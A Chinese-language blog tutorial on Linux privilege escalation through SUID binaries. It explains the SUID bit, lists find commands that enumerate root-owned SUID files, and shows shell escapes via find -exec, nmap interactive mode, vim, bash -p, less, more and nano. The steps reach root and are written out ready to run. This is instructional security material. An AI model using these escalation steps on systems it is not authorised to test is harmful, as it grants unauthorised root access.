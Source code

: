 ```yaml
---
title: Linux渗透 SUID提权
description: Linux渗透 SUID提权
pubDate: 11 11 2024
image: https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-12.webp
categories:
  - 网络安全
tags:
  - 提权
  - Linux
---
```


## SUID

> SUID（Set User ID）是Linux和Unix系统中一种文件权限位，允许用户在执行文件时以文件所有者的身份运行该程序，而不是执行者的身份。通常，这在需要特定权限的程序中使用，例如需要以 root 权限执行的程序，方便非 root 用户运行而无需直接授予他们 root 权限。

SUID 的特点是用户运行某个程序时，如果该程序有 SUID 权限，程序运行进程的属主不是发起者，而是程序文件所属的属主。

比如普通用户张三想要运行一个程序，而这个程序需要有李四的权限，那么就可以为这个程序设置 SUID，当张三运行这个程序的时候就会拥有李四的权限，从而去运行这个程序。而如果，这里李四是 root 用户，那么张三在运行这个程序时，就是以 root 用户权限去运行的。

我们可以利用这个特性去进行提权

## 设置 SUID

通过如下命令进行设置

```shell
chmod u+s filename 设置SUID位
chmod u-s filename 去掉SUID设置
```

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-1.webp)

可以看到，在设置 SUID 后，权限中 x 的位置变成了 S

## SUID 利用

当前权限如下

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-2.webp)

### SUID 文件收集

首先是要去收集存在 SUID 的文件

```shell
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -print 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

- 命令一： `find / -perm -u=s -type f 2>/dev/null`
  - 解释：在根目录 `/` 下递归查找所有具有 SUID 权限的文件。
  - 参数说明：
    - `-perm -u=s`：表示查找设置了 SUID 位的文件（以拥有者身份执行）。
    - `-type f`：只查找文件（不包括目录、链接等其他类型）。
    - `2>/dev/null`：将错误输出重定向到 `/dev/null`，隐藏因为权限不足导致的错误消息。
  - 目的：查找系统中所有具有 SUID 权限的文件，以检查可能存在的提权漏洞。

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-3.webp)

- 命令二： `find / -user root -perm -4000 -print 2>/dev/null`
  - 解释：在根目录下查找所有具有 SUID 权限且文件拥有者是 `root` 的文件。
  - 参数说明：
    - `-user root`：限定文件拥有者为 `root` 用户。
    - `-perm -4000`：查找具有 `4000` 权限的文件，即 SUID 位被设置的文件。
    - `-print`：输出找到的文件路径。
    - `2>/dev/null`：将错误信息重定向到 `/dev/null`，隐藏错误消息。
  - 目的：查找系统中以 `root` 身份执行的 SUID 文件，这些文件如果存在安全漏洞，可能被用于提权到 `root`。

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-4.webp)

- 命令三： `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`
  - 解释：在根目录下查找所有具有 SUID 权限且拥有者是 `root` 的文件，并详细列出这些文件的权限和信息。
  - 参数说明：
    - `-user root`：限定文件拥有者为 `root` 用户。
    - `-perm -4000`：查找具有 `4000` 权限的文件，即 SUID 位被设置的文件。
    - `-exec ls -ldb {}`：对找到的每个文件执行 `ls -ldb` 命令，详细列出文件的权限、所有者等信息。
    - `{}`：表示找到的文件路径会插入到 `{}` 中。
  - 目的：不仅查找 SUID 文件，还通过 `ls -ldb` 详细列出文件权限、所有者等信息，有助于进一步分析这些文件的潜在风险。

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-5.webp)

### find 提权

如果 find 拥有 SUID 权限的话，我们可以利用它进行提权

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-6.webp)

find 命令需要指向一个文本文件，就以 `/etc/passwd` 为例

```shell
find /etc/passwd -exec whoami \;
```

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-7.webp)

成功以 root 权限去执行了 `whoami`。我们可以用这种方式去执行各种命令

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-8.webp)

### nmap 提权

在早期 nmap 版本中，带有交互模式，因而允许用户执行shell命令。

适用版本：nmap 2.02 至 5.21

使用如下命令进入nmap交互模式:

```css
nmap --interactive
```

在nmap交互模式中 通过如下命令提权

```shell
nmap> !sh
sh-3.2# whoami
root
```

### Vim 提权

要先打开一个文件

```
vim /etc/passwd
```

然后进入 vim 命令模式，通过vim进入shell

```shell
:set shell = '/usr/bin/sh'
:shell
```

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-9.webp)

### Bash 提权

以下命令将以 root 身份打开一个 bash shell。

```bash
bash -p
```

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-10.webp)

### less 提权

less 命令也可以进入 Shell

```bash
less /etc/passwd
```

在 less 中输入：`!/bin/sh`

注意：要读取一个比较大的文件，如果文件太小无法进入翻页功能也就无法使用 `!` 命令进入 shell

### more 提权

more命令进入 shell 和 less 相同

```bash
more /etc/passwd
#在more中输入:
!/bin/sh
```

注意：要读取一个比较大的文件，如果文件太小无法进入翻页功能也就无法使用 `!` 命令进入 shell

### nano 提权

nano 进入 shell 的方法为

```
nano #进入nano编辑器
Ctrl + R
Ctrl + X
#即可输入命令
```

![](https://img.trtyr.top/images/blog/Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83/001%20Linux%E6%B8%97%E9%80%8F%20SUID%E6%8F%90%E6%9D%83-11.webp)

## 总结

其实就是用属主为 root 用户，拥有 SUID 的可执行文件去执行命令，除了上面说的那些，什么 python，perl，man 等等工具脚本，

只要是满足下面的条件都可以去利用

- 有 SUID，
- 属主是对应权限用户
- 是可执行文件
- 可以通过不同的方式去执行命令

